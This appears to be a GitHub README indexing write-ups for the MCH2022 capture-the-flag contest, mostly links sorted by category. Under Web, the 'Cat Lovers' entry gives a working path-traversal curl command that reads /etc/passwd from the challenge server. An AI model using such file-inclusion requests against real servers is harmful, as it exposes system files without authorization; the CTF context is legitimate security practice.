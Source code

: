 # MCH2022-CTF

## Crypto
Crypto Machine: https://www.youtube.com/watch?v=BjkOwSQ3wk8

qEXMRY^7: https://imp.ress.me/blog/2022-07-26/mch-2022-crypto/#qexmry-7

Squaring Off: https://imp.ress.me/blog/2022-07-26/mch-2022-crypto/#squaring-off

Sharing is Caring: https://imp.ress.me/blog/2022-07-26/mch-2022-crypto/#sharing-is-caring

## Pwnable

HipsterProgramming: https://github.com/craig/MCH2022-CTF/blob/main/HipsterProgramming.txt 

rockpaperlizardspock: https://github.com/craig/MCH2022-CTF/blob/main/rockpaperlizardspock.txt

## Forensics

Screensaver: https://github.com/craig/MCH2022-CTF/blob/main/screensaver.txt

Encrypted USB: https://github.com/craig/MCH2022-CTF/blob/main/encrypted_usb.txt

North Korean Needle: https://github.com/craig/MCH2022-CTF/blob/main/north_korean_needle.txt


## Web

Coinflip: https://gist.github.com/betrisey/45882ce20c743c8e2fadff88899030e1

Coinflip: https://github.com/craig/MCH2022-CTF/blob/main/coinflip.sh

Secure Router: https://github.com/craig/MCH2022-CTF/blob/main/secure_router.txt

Captcha: https://github.com/craig/MCH2022-CTF/blob/main/captcha.txt

Cat Lovers: simple LFI, curl https://catlovers.ctf.zone/image.php?file=../../../../etc/passwd | grep catlover | cut -d: -f5

## Network

## Misc

Rogue Wifi: https://github.com/craig/MCH2022-CTF/blob/main/rogue_wifi.txt

Access Control 1: https://github.com/craig/MCH2022-CTF/blob/main/accesscontrol1.txt

Access Control 2: https://github.com/craig/MCH2022-CTF/blob/main/accesscontrol2.txt

Locked Locks 1: A lock in a white case, needs lockpicking.

Locked Locks 2: A lock in a black case, needs lockpicking and is hard, due to a security pin.

Lost Combination: A simple shimming challenge. https://en.wikipedia.org/wiki/Shim_(lock_pick)
